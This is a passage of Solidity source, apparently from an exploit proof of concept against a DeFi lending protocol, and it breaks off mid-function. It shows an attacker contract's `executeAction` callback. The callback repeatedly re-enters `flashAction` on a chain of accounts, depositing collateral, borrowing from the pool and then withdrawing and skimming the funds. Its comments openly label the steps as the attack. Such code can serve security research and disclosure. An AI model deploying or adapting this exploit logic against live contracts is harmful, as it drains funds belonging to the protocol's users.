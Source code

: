 ```solidity
  /// @dev Handle a flash action invocation.
  function executeAction(bytes memory actionTargetData) public returns (ActionData memory returnDepositData) {

    uint256 tokenBalance = _TOKEN.balanceOf(address(this));

    /// @dev Have the account formally deposit the token.
    address[] memory assetAddresses = new address[](1);
    assetAddresses[0] = address(_TOKEN);
    uint256[] memory assetIds = new uint256[](1);
    uint256[] memory assetAmounts = new uint256[](1);
    assetAmounts[0] = 1 ether;

    /// @dev Fetch the current account for the given `attackDepth`.
    AccountV1 currentAccount = AccountV1(_accounts[_attackDepth]);

    /// @dev Deposit the attack liquidity.
    currentAccount.deposit(assetAddresses, assetIds, assetAmounts);

    /// @dev Let's see if we can use our tokens as borrow collateral.
    _POOL.borrow(0.5 ether, address(currentAccount), address(this), bytes3("KEK"));

    uint256[] memory assetTypes = new uint256[](1) /* [ERC-20] */;

    ActionData memory withdrawActionData = ActionData({
      assets: assetAddresses,
      assetIds: assetIds,
      assetAmounts: assetAmounts,
      assetTypes: assetTypes
    });

    // TODO: fix this, lazy
    uint256 myAttackDepth = _attackDepth;

    /// @dev Increase the attack depth to figure out where in the
    /// attack we currently rest.
    ++_attackDepth;

    if (_attackDepth < _accounts.length) {

      /// @dev Moment of truth.
      currentAccount.flashAction(
        address(this) /* `this.executeAction(bytes)` */,
        abi.encode(withdrawActionData, _emptyActionData(), "", "", "")
      );

    }

    /// @dev Withdraw excess funds after the attack has taken place.
    _withdrawAndSkim(_accounts[myAttackDepth], 0.5 ether);

    if (myAttackDepth > 0) {

      AccountV1 accountToSendTo = AccountV1(_accounts[myAttackDepth - 1]);

      /// @dev Expedite funds.
      _TOKEN.approve(address(accountToSendTo), type(uint256).max);

      uint256[] memory newAssetAmounts = new uint256[](1);
      newAssetAmounts[0] = withdrawActionData.assetAmounts[0];

      withdrawActionData.assetAmounts = newAssetAmounts;

```